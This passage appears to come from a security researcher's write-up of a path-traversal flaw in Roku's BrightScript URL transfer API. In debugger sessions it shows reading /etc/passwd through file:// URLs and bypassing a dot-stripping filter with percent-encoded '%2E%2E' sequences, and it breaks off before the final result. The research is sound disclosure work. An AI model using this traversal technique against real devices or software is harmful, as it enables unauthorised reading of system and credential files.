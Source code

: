 ```bash
$ curl file:///etc/passwd
root:x:0:0:root:/root:/bin/bash
```

will grab the contents of `/etc/passwd`.

Could it really be this easy? Could we just grab files off the Roku like this?
Sadly, no.

```vb
Brightscript Debugger> r.SetUrl("file:///etc/passwd")
*** ERROR: Missing or invalid PHY: '/etc/passwd'
```

Clearly there was *some* attempt to restrict the `file://` protocol, but how
good was this attempt? As it turns out, not really. Roku wanted you to be able
to use `file://` to access files that you could access through the normal file
APIs they provide, so for exmaple you can do:

```vb
Brightscript Debugger> r.SetUrl("file://pkg:/manifest")
Brightscript Debugger> ? r.GetToString()
##   Channel Details
title=Hello World
```

If we acctually run the `GetUrl()` method after performing this, we can see what
the BrightScript internals end up rewriting this into:

```vb
? r.GetUrl()
file:///tmp/plugin/GPAAAAX4Lckh/pkg:/manifest
```

exposing some nice internal paths to us. But this also shows that they seem to
be concatening our url path in front of `tmp/plugin/GPAAAAX4Lckh/` so could
we just use the `../..` characters in the URL to traverse up the path?

```vb
Brightscript Debugger> r.SetUrl("file://pkg:/../../../../etc/passwd")
Brightscript Debugger> ? r.GetUrl()
file:///tmp/plugin/GPAAAAX4Lckh/pkg:/etc/passwd
```

Not quite, looks like there's some magic going on that strips out the dot dots
out of the url. However, there seems to be one simple trick that the Roku
developers forgot about. URLs support [url/percent encoding](https://en.wikipedia.org/wiki/Percent-encoding),
so instead of putting in the raw `..` we can replace it with the equivelant
percent encoded characters, `%2E%2E`. This gives us the url:

```vb
r.SetUrl("file://pkg:/%2E%2E/%2E%2E/%2E%2E/%2E%2E/etc/passwd")
```

Checking `r.GetUrl()` again, this time we see:

```vb
Brightscript Debugger> ? r.GetUrl()
file:///tmp/plugin/GPAAAAX4Lckh/pkg:/%2E%2E/%2E%2E/%2E%2E/%2E%2E/etc/passwd
```

